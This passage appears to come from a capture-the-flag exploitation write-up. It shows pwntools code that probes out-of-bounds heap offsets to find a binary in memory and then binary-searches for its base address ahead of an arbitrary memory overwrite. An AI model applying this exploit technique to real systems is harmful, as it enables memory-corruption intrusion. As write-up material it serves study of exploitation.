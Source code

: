 
```python
    # Size of the first allocation done internally by glibc.
    first_alloc_offset = 0x1860
    i = 1
    # Size of our executable.
    bin_size = 0xb1000
    # Offset to the beginning of the heap.
    heap_base = -first_alloc_offset

    # Search where the binary is in memory.
    # We do it in multiples of bin_size so it's not that hard to
    # find it.
    p = log.progress("searching for binary")
    while True:
        offset = heap_base - i*bin_size
        p.status(f"trying {i=} {offset=}")
        io.sendline(f"{offset}".encode())
        
        recieved = io.recvuntil(b"poni")
        if b":<" not in recieved:
            break
        
        heap_base -= 0x20 # malloc chunk size
        i += 1
    p.success(f"binary was found at offset {offset}")
    
    # Binary search for the base of the binary.
    l = offset - heap_base
    r = l + bin_size
    p = log.progress("searching for binary base")
    while l <= r:
        m = (l+r) // 2
        p.status(f"trying {l=} {r=} {m=}")
        io.sendline(f"{m}".encode())

        recieved = io.recvuntil(b"poni")
        if b":<" not in recieved:
            l = m+1
        else:
            r = m-1
        l -= 0x20
        r -= 0x20
    bin_base_offset = m - bin_size
```

It's important to notice that we make a call to malloc every iteration of
the loop, so we need to subtract 0x20 from the `heap_base` every time.
There's also a small chance the exploit will fail because in the process of
finding the binary we overwrote some random place in memory.
Now that we found the offset to the base address of our binary, we can start
with overwriting whatever we want with it.
